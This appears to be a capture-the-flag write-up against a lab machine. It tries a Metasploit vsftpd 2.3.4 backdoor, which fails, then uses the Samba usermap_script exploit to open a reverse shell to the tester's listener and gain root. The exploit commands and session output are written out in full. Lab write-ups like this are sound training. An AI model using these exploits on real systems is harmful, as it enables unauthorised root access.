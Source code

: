 leaving the target port as 21 all we need to do it specify the target host, set verbosity to true and run:

``` ruby
set RHOSTS 10.10.10.3
set VERBOSE TRUE
run
```

this fails:

``` ruby
[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

Ok so what went wrong? Remember the nmap scan on port 6200?

```
Nmap scan report for 10.10.10.3
Host is up.

PORT     STATE    SERVICE
6200/tcp filtered lm-x
```

Looks like the connection is filtered! This means we might be blocked on this port.
I think that the exploit code probrably worked, but but the admin of the box may has made it so that no sevices can stand up on port 6200.

Ok lets revisit Samba:

``` ruby
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set VERBOSE TRUE
run
```

pops a shell:

``` 
[*] Started reverse TCP double handler on 10.10.14.23:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo LQByr8MPJ3zhSZdr;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "LQByr8MPJ3zhSZdr\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.23:4444 -> 10.10.10.3:54077) at 2019-09-16 21:16:51 +0100
```

lets check our privs:

``` sh
id
```

and we're root, W00tW00t!

```
uid=0(root) gid=0(root)
```

Grab the flags and submit.